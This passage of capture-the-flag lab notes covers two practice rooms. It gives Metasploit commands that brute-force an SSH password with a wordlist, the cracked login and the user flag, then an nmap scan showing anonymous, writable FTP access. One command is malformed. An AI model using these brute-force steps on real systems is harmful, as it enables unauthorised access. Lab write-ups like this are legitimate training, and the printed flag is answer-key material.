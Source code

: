 Attempt to use Jake's name during an ssh login
set username, remote host, and set pass_file to find the password associated with the user Jake
```
msfupdate
service postgresql start && msfconsole -q 
search ssh_login
use auxiliary/scanner/ssh/ssh_login
setg rhosts 10.10.208.225 
set /usr/share/wordlists/rockyou.txt
set username jake
exploit

[+] 10.10.208.225:22 - Success: 'jake:987654321' 'uid=1000(jake) gid=1000(jake) groups=1000(jake) Linux brookly_nine_nine 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
```

Login into the remote server using the new found password credentials for the user Jake
```
ssh jake@10.10.208.225
password: 987654321
```

Navigate through the server to find the flag
```
cd /home
cd halt
cat user.txt
ee11cbb19052e40b07aac0ca060c23ee
```


## Anonymous (Not Done)


Enumerate the machine.  How many ports are open?
```
nmap -sV -sC 10.10.154.70

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.169.80
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:1B:D1:3E:A6:F1 (Unknown)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
```